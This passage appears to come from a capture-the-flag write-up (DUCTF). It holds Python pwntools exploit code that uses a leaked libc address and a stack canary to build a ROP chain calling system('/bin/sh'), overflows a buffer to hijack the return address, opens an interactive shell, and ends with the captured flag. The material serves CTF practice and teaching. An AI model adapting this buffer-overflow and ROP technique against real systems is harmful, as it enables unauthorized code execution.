 ```python
print(f"libc_addr: {hex(libc_addr)}")
print(f"libc_start_main offset: {hex(libc.sym['__libc_start_main'])}")


base_address = libc_addr -0x29d90
libc.address = base_address
print(f"base_address: {hex(libc.address)}")
io.recvuntil(b'> ')
io.sendline(b'1')

rop =ROP(libc)
ret = libc.address + 0x00000000000f8c92
rop.system(next(libc.search(b'/bin/sh\x00')))

payload= b'A'*88 + p64(canary)

# offsets to rip = 104
payload+= b'A'*(104-len(payload))
payload += p64(ret)
payload += rop.chain()
io.sendline(payload)
io.sendline(b'100')
io.interactive()
```




### Flag
`DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}`